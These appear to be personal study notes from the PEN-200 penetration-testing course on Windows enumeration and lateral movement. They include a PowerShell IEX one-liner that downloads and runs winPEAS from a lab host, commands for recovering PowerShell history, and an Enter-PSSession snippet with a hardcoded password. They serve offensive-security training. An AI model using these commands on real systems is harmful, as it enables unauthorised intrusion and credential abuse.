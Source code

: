 # From pen-200 course.  




### Host enumeration

**can be automated with winPEAS.ps1**
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.247/winPEAS.ps1')
```
[winPEAS Github](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

<br>

**Enumeration checklist**

- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes

<br><br><br>
Get all local users:  Get-LocalUser  
<a name="Get-LocalUser">

Get all local groups: Get-LocalGroup   OR net localgroup  
<a name="Get-LocalGroup">

Gather:  
- systeminfo
- ipconfig /a
- route print
- netstat -ano
- Get-Process
**SHOWS THE POWERSHELL  HISTORY**
- Get-History       
- type (Get-PSReadlineOption).HistorySavePath **this shows all history. Even what Clear-history doesnt clear**
- 
  <br><br>

  Get all installed programs X86:
  ``` powershell
  Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  ```

  Get all installed programs X64:
  ```powershell
  Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  ```

### printer spooler enumeration
Check to see if print spooler is running
ls "\dc01\pipe\spoolss"



### Lateral movement techniques  
<br>
- Lateral movement with Enter-PSSession:
  
``` Powershell
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```
<br>
- Lateral movement with Evil-winrm(apparently enter-pssession isnt too stable)
[Evil-WinRm github](https://github.com/Hackplayers/evil-winrm)

**WinRm is on port 5985**

<img width="835" height="725" alt="image" src="https://github.com/user-attachments/assets/13bc6534-e9d7-49a6-8c61-a06f995ea0cb" />



- 


  

